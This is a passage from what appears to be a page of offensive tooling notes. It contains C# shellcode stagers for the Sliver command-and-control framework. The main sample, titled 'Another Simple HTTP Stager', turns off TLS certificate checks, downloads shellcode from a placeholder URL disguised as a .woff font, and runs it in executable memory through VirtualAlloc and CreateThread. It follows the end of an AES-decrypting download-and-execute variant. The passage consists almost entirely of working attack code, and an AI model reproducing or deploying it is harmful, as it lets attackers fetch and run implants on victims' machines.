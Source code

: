 ```c#

            using (Aes aesAlg = Aes.Create())
            {
                aesAlg.Key = key;
                aesAlg.IV = IV;
                aesAlg.Padding = PaddingMode.None;

                ICryptoTransform decryptor = aesAlg.CreateDecryptor(aesAlg.Key, aesAlg.IV);

                using (MemoryStream memoryStream = new MemoryStream(ciphertext))
                {
                    using (CryptoStream cryptoStream = new CryptoStream(memoryStream, decryptor, CryptoStreamMode.Write))
                    {
                        cryptoStream.Write(ciphertext, 0, ciphertext.Length);
                        return memoryStream.ToArray();
                    }
                }
            }
        }

        public static void Main(String[] args)
        {
            DownloadAndExecute();
        }
    }
}

```

## Another Simple HTTP Stager

```c#
using System;
using System.Net;
using System.Runtime.InteropServices;

namespace SliverStager
{
    public class Stager
    {
        private static string url = "http://a.bc/test.woff";

        [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
        static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);

        [DllImport("kernel32.dll")]
        static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);

        [DllImport("kernel32.dll")]
        static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);

        public static void DownloadAndExecute()
        {
            ServicePointManager.ServerCertificateValidationCallback += (sender, certificate, chain, sslPolicyErrors) => true;
            System.Net.WebClient client = new System.Net.WebClient();
            byte[] shellcode = client.DownloadData(url);
            IntPtr addr = VirtualAlloc(IntPtr.Zero, (uint)shellcode.Length, 0x3000, 0x40);
            Marshal.Copy(shellcode, 0, addr, shellcode.Length);
            IntPtr hThread = CreateThread(IntPtr.Zero, 0, addr, IntPtr.Zero, 0, IntPtr.Zero);
```